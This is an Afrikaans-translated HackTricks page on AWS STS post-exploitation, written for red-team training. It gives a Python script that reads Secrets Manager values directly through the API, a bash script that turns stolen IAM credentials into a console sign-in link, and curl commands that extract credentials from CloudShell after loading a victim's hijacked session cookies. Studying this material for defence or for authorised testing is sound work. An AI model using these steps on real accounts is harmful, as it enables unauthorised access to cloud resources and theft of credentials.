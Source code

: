 # AWS - STS Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

Vir meer inligting:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### Nuwe Metode Desember 2024: Oorbrug Vereiste vir Web Konsolskakel, Deur HTTPS POST Versoek Direk Verkry Geheimen van SecretsManager API (Geen Inlogskakel of Web Konsol)

Gister ingedien, as PR vir komende eksamen (ARTE: ex16x41) egter ek sien dat die PR nie vertoon nie, dalk verkeerd ingedien, kom ons probeer weer:
Met hierdie metode omseil jy heeltemal die vereiste om enige URL's te open, enige inlogskakels te formateer of selfs die CLI / Web Konsol te gebruik.
So wat het ons hier gedoen?
Ek het hierdie skrip geskryf wat direk met die AWS Secrets Manager API kommunikeer, dit is absoluut eenvoudig en reguit.
Wanneer jy die skrip uitvoer, stuur dit 'n HTTPS POST versoek na die AWS Secrets Manager eindpunt
https://secretsmanager.<region>.amazonaws.com/
Die GetSecretValue versoek word as deel van die POST versoek gestuur, geverifieer met SigV4 ondertekening (bestuur deur boto3).
Secrets Manager Verwerk die Versoek:
AWS valideer die versoek teen die IAM beleid wat aan jou gebruiker of rol geheg is (soos ons weet kan ons die geheime waarde slegs as web konsol sien)
As toegelaat, keer die Secrets Manager diens die aangevraagde geheime waarde in die antwoord terug.
**POC Demo:**
Die CLI AWS opdrag om geheime waarde te verkry werk nie omdat toegang geweier is ->
Echter, in die beeld kan jy die eenvoud van die metode sien om eenvoudig die vlag direk te onttrek deur die geheime ID te ken (dit ons enum in 'n vroeëre fase toe ons ingelog was met gebruiker profiel)
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
Let wel: Ek dink hierdie metode kan universeel gebruik word afhangende van die scenario as die beleid toelaat (maar omseil beperkings van beleid wat nie via CLI toelaat nie)
So dit kan enige tyd gebruik word wanneer 'n beleid toelaat (as 'n alternatiewe toetsopsie)
Syd Nota: nuuskierig oor ander tegnieke wat jy kan toepas met dieselfde metode van direkte interaksie met die API van diens en nou AWS CLI, vir enige proses van priv esc of post exploitation soos hier.
**Kode:**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Stel 'n pasgemaakte User-Agent in
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# Verkry die geheime waarde direk via secretsmanager API
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### Van IAM Krediete na Konsol

As jy daarin geslaag het om 'n paar IAM krediete te verkry, mag jy belangstel om **die web konsol te benader** met behulp van die volgende gereedskap.\
Let daarop dat die gebruiker/rol die toestemming **`sts:GetFederationToken`** moet hê.

#### Pasgemaakte skrip

Die volgende skrip sal die standaard profiel en 'n standaard AWS ligging (nie gov en nie cn) gebruik om vir jou 'n onderteken URL te gee wat jy kan gebruik om binne die web konsol in te log:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Jy kan **'n webkonsole skakel genereer** met [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Verseker dat die IAM-gebruiker `sts:GetFederationToken` toestemming het, of verskaf 'n rol om aan te neem.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) is 'n hulpmiddel om AWS-akkrediteerings veilig te stoor en toegang daartoe te verkry in 'n ontwikkelingsomgewing.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Jy kan ook **aws-vault** gebruik om 'n **blaaier konsolesessie** te verkry.
{% endhint %}

#### Van Konsol na IAM Krediete

[**Oorspronklik ontdek in hierdie pos**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), As jy daarin slaag om toegang tot 'n webkonsol te kompromitteer (miskien het jy koekies gesteel en kon nie toegang tot die .aws-gids kry nie), kan jy 'n paar IAM-tokenkrediete vir daardie gebruiker verkry deur middel van **CloudShell**.

CloudShell stel IAM-krediete bloot via 'n **on gedokumenteerde eindpunt op poort 1338**. Nadat jy sessiekoekies van die slagoffer in jou blaaier gelaai het, kan jy na CloudShell navigeer en die volgende opdragte gee om IAM-krediete te verkry.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

